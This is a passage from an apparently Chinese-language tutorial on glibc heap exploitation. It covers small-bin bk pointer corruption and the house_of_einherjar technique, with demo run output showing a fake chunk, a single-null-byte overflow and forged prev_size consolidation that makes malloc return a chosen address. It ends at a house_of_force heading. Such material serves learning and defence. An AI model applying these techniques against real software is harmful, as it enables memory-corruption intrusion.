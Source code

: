 那么，当一个块存在于 Small Bin 的第一个块时，通过溢出修改其\verb+ bk+指针指向某个地址\verb+ ptr+, 当下一次进行\verb+ malloc+对应大小的块时, 就有\verb+ bck = victim->bk= ptr+, 且 \verb+ bin->bk = bck = ptr+, 这样以来就成功地将这个\verb+ bin+的第一块指向了\verb+ ptr+, 下次再\verb+ malloc+对应大小就能够返回\verb| ptr+16|的位置, 这样攻击者再对取回的块进行写入就能控制\verb$ ptr+16$的内存内容。

\subsection{house\_of\_einherjar}

编译，运行得到结果：
\begin{verbatim}
$ gcc -g house_of_einherjar.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xb31010

Our fake chunk at 0x7ffdb337b7f0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffdb337b7f0
bck: 0x7ffdb337b7f0
fwd_nextsize: 0x7ffdb337b7f0
bck_nextsize: 0x7ffdb337b7f0

We allocate 0xf8 bytes for 'b': 0xb31030
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0xb31020 - 0x7ffdb337b7f0 = 0xffff80024d7b5830

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80024d7d6811 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7ffdb337b800
\end{verbatim}

\verb+ house-of-einherjar+是一种利用\verb+ malloc+ 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉\verb+ next chunk+的\verb+ size+字段并清除\verb+ PREV_IN_USE+标志，然后还需要覆盖\verb+ prev_size+字段为\verb+ fake chunk+的大小。
当\verb+ next chunk+被释放时，它会发现前一个\verb+ chunk+被标记为空闲状态，然后尝试合并堆块。只要我们精心构造一个\verb+ fake chunk+，并让合并后的堆块范围到\verb+ fake chunk+处，那下一次\verb+ malloc+将返回我们想要的地址。

\subsection{house\_of\_force}

